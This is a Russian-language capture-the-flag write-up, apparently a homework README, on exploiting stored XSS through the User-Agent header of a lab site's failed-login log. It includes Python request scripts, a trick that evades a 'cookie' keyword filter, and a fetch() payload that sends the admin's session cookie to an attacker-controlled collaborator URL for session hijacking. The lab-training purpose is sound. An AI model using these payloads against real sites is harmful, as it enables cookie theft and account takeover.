 ![Pasted image 20240313004351](https://github.com/Ezhidze25/Forbidden_Code_HW/assets/57564074/d9383282-ba4a-4074-a3f3-025f2db62bf4)![Pasted image 20240313004232](https://github.com/Ezhidze25/Forbidden_Code_HW/assets/57564074/8e6ca0f3-a17a-441f-91a9-a34e3527863c)# Forbidden_Code_HW

При входе на сайт видим форму для входа/регистрации

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240312215659.png?raw=true)

При изучении страницы HTML находим подсказку о POST-запросе

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240312220201.png?raw=true)

В личном кабинете можно найти логи неудачных попыток входа. После неудачной попытки входа получаем такую картину

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240312220022.png?raw=true)

Регистрируем пользователя с именем `<script>alert(1)</script>` для проверки XSS payload. Получаем:

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240312220615.png?raw=true)

>XSS, или межсайтовый скриптинг, — это тип атаки на веб-приложения, при котором злоумышленник может внедрять в содержимое веб-страницы вредоносный скрипт, который будет выполняться на стороне клиента. Это может привести к краже данных, сессий или даже полному контролю над учетной записью жертвы. Рассмотрим возможные пути кражи аккаунта через XSS и методологию предотвращения таких атак.

## Подготовка атаки
Изменить логин admin на payload нельзя. На поле id, username, IP, Date мы повлиять не можем, они генерируются на сервере, а вот на User-Agent можем. Напишем скрипт на python для этого:

```python
import requests

payload = "<script>alert(1);</script>" # это пейлоад

user = "asdf" #Тут наш username
headers = {'User-Agent': payload} # Вставляем его в хедер
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data) # Совершаем попытку логина с неверным паролем
 
print(response.status_code)# Выводим информацию
#print(response.text) 
```
Проверка скрипта прошла успешно:

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240312231514.png?raw=true)

## Проработка атаки

После поиска в гугл по запросу "XSS steal cookie payloads" и изучения результатов понимаем что нам нужно захватить ```document.cookie``` **значение**.

Пробуем простой alert();

````python 
import requests


payload = '<script>alert(document.cookie);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````
И встречаем проблему
![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240313002008.png?raw=true)

На сайте стоит фильтр на слово ```cookie```

##Обход фильтрации

Не забываем, что у нас есть неограниченный доступ к **javascript** на клиентской части.
в функции alert() нам нужно вывести document.cookie.
Попробуем сделать это с помощью переменных.
Необязательно транспортировать слово cookie именно как слово, можно его собрать из массива!
````javascript
const vv = ["coo", "kie"].join(""); # передаем его раздельно и с помощью join собираем в одно слово
alert(document[vv]); # не забываем что document это обьект, и к его значениям можно обращаться не только через точку, но и через [значение]
````
Пробуем этот payload.
````python 
import requests


payload = '<script>const vv = ["coo", "kie"].join("");alert(document[vv]);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````
Получаем результат
![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240313002825.png?raw=true)

Вспоминаем зачем нам потребовался коллаборатор в бурпе.
Данное значение, которое только вывели в alert, мы будем ловить на его **сервер**.

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240313003642.png?raw=true)

1) Переходим в вкладку
2) Копируем **url**
3) Переходим по ней в google
4) Нажимаем **Poll now**, чтобы получить с сервера данные.

Эта функция заменит нам ngrok или свой белый IP и сервер, очень удобно.
Копируем и вставляем в скрипт.


````python 
import requests


payload = '<script>const vv = ["coo", "kie"].join(""); var payload = `https://{{СЮДА}}/?${vv}=` + document[vv]; fetch(payload);</script>'

user = "admin" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````
Отправляем, ждем, пуллим.

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240313004232.png?raw=true)

Подставим значение PHPSESSID в наш браузер. 
![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240313004351.png?raw=true)

![](https://github.com/Ezhidze25/Forbidden_Code_HW/blob/main/Pasted%20image%2020240313004408.png?raw=true)

Получаем флаг: ***CODEBY{m1ss_th3_cl13nt_att4cks?}***
